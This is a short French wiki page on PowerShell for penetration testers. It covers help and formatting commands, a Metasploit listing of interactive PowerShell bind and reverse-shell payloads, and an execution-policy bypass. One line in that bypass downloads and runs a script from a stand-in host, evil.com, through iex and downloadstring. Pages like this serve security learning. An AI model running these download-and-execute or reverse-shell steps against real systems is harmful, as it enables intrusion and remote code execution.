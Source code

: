 ```yaml
---
title: Powershell
permalink: /Powershell/
---
```


Généralités
-----------

powershell.exe n'est pas "Powershell" mais juste une interface pour intéragir avec. Il est possible d'utiliser d'autres interfaces comme "Not Powershell" (https://github.com/Ben0xA/nps)

Commandes
---------

Obtenir de l'aide en powershell:

``` powershell
Get-Help Get-Command # Obtenir de l'aide sur Get-Command
Get-Help Get-Command -examples # Affiche les examples
Get-Help Get-Command -full # Affiche toute l'aide
Get-Help Get-Command -Parameter * # Affiche les paramétres
Get-Command Out* # Renvoie toutes les commandes dont le nom contient Out*
```

Pour faire des boucles:

``` powershell
Get-Process | ForEach-Object {$_.Name} # Boucle sur chaque résultat de la commande Get-Process et renvoie le nom
```

Pour faire du formatting / output:

``` powershell
Get-Process | Format-List -Property Threads, SessionId # Affiche le résultat sous forme de liste en se limitant à certaines informations
```

Session interactive
-------------------

**Note**: cette section est basée sur [Interactive sessions in PowerShell](https://www.trustedsec.com/june-2015/interactive-powershell-sessions-within-meterpreter/)

Pour obtenir une session interactive avec Powershell sous metasploit il est possible d'utiliser un des payloads dédiés dans metasploit. Il est à noter qu'il n'est pas possible de passer par meterpreter qui ne permet pas de lancer powershell après avoir fait un `shell`. Dans la version 4.11.5-2016010401 de metasploit les modules suivants sont disponibles:

``` bash
msf exploit(psexec) > search Interactive_powershell

Matching Modules
================

   Name                                        Disclosure Date  Rank    Description
   ----                                        ---------------  ----    -----------
   payload/cmd/windows/powershell_bind_tcp                      normal  Windows Interactive Powershell Session, Bind TCP
   payload/cmd/windows/powershell_reverse_tcp                   normal  Windows Interactive Powershell Session, Reverse TCP
   payload/windows/powershell_bind_tcp                          normal  Windows Interactive Powershell Session, Bind TCP
   payload/windows/powershell_reverse_tcp                       normal  Windows Interactive Powershell Session, Reverse TCP
   payload/windows/x64/powershell_bind_tcp                      normal  Windows Interactive Powershell Session, Bind TCP
   payload/windows/x64/powershell_reverse_tcp                   normal  Windows Interactive Powershell Session, Reverse TCP
```

Execution Policy
----------------

Il est possible de contourner l'execution policy ("\[...\] running scripts is disabled on this system."):

``` powershell
iex (new-object net.webclient).downloadstring('file:///C:\\Tools\\Powersploit\\Powersploit.psd1')
iex (new-object net.webclient).downloadstring('https://evil.com/powersploit.psd1')
```

-   Si powershell.exe est bloqué: il est possible d'utiliser **Not Powershell** (https://github.com/Ben0xA/nps)

Il est très important de comprendre que l'execution policy n'est pas un mécanisme de sécurité ! (Microsoft le dit lui-même)

Commandes utiles
----------------

Les commandes suivantes sont utiles à connaître lors de l'utilisation de Powershell:

Resources
---------

-   [PowerUp: A Usage Guide](http://www.harmj0y.net/blog/powershell/powerup-a-usage-guide/)
-   [PwnWiki](http://pwnwiki.io/#!scripting/powershell.md)
-   [DerbyCon - PowerShell Secrets and Tactics](https://www.youtube.com/watch?v=mPPv6_adTyg)

[Category:Technologies](/Category:Technologies "wikilink")[Category:Windows](/Category:Windows "wikilink")